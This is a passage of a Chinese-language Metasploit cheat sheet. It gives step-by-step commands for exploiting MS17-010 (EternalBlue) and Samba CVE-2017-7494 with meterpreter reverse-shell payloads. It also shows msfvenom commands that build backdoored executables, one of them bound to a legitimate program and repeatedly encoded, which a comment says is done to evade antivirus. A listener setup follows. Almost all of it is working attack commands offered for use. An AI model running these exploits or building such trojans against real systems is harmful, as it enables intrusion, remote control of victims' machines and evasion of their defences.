 > msfconsole
>
> search MS17-010
>
> use exploit/windows/smb/ms17_010_eternalblue
>
> set payload windows/x64/meterpreter/reverse_tcp
>
> set RHOSTS 192.168.1.143    //目标靶机ip
>
> set LHOST 192.168.1.142    //本机IP
>
> exploit

##### CVE-2017-7494

> **服务器版的永恒之蓝**
>
> > use exploit/linux/samba/is_known_pipename
> >
> > set RHOST 目标IP
> >
> > set targets 合适targetss
> >
> > run

##### 木马后门

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.64.7 LPORT=1234 -f exe >/root/1.exe
>
> -p 参数指定一个payload ,	-f 参数指定生成的文件格式、 其中需要设置本地监听的IP和端口号

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.64.7 LPORT=1234 -x /root/cmd.exe -e x86/shikata_ga_nai -i 5 -f exe -o /root/test.exe
>
> -x 参数选项绑定一个正常程序，可达到免杀， -e 参数指定编码方式 , -i  参数指定编码次数,-o参数保存到指定位置

> **监听**：
>
> > use exploit/multi/handler
> >
> > set payload windows/x64/meterpreter/reverse_tcp
> >
> > set lhost 192.168.64.7
> >
> > set lport 1234
> >
> > run

